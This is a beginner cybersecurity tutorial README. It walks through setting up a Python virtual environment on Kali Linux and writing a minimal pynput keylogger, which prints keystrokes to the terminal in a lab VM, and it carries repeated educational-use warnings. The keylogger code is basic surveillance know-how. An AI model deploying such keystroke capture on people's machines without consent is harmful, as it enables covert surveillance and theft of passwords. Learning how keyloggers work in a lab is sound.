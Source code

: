 # Keylogger Basics – Beginner Cybersecurity Project

This project demonstrates how to build a **simple Python keylogger** using `pynput`.  
It runs on **Kali Linux** in a **safe, virtualized lab environment** and captures keystrokes for educational purposes.

⚠️ **Educational Use Only** – Do not use this on any system without explicit permission.

---

## Step 0: Set Up Python Environment

```bash
sudo apt update
sudo apt install python3-pip
pip3 install pynput
```


![Install Error](\BeginnerProjects/)



You're seeing this error because Kali Linux has locked down system-wide Python package installations to prevent breaking your OS (per PEP 668).

 Solution: Use a Virtual Environment (Safe & Recommended)
 
Instead of installing pynput globally, create a virtual environment:

# 1. Install venv (if not installed yet)
```bash
sudo apt install python3-venv
```
# 2. Create a new virtual environment
```
python3 -m venv myenv
```
# 3. Activate the environment
```
source myenv/bin/activate
```
# 4. Install pynput safely inside it
```
pip install pynput
```
![Fix pip install error](\BeginnerProjects/)


DONE.....

##  Step 3: Write the Keylogger Script

Create a file named `keylogger.py` and paste the following code:

```python
from pynput import keyboard

def on_press(key):
    try:
        print(f"Key pressed: {key.char}")
    except AttributeError:
        print(f"Special key pressed: {key}")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

  Screenshot:  
![Writing Keylogger in Nano](\BeginnerProjects/)



##Step 4: Run the Keylogger

From the terminal (while still in the virtual environment), run:

```bash
python3 keylogger.py
```

Now type something to see the output in real time.

 Screenshot:  
![Keylogger Output](\BeginnerProjects/)



## Step 5: Deactivate the Environment

After testing, deactivate the virtual environment:

```bash
deactivate
```

---

##  What You Learned

- How to use Python virtual environments securely.
- How to install and use `pynput` to capture keystrokes.
- How keyloggers function at a basic level.

---

##  Notes

- Run only in a controlled VM environment like **Kali Linux**.
- Don’t use keyloggers on live or production systems.

 (educational use only).

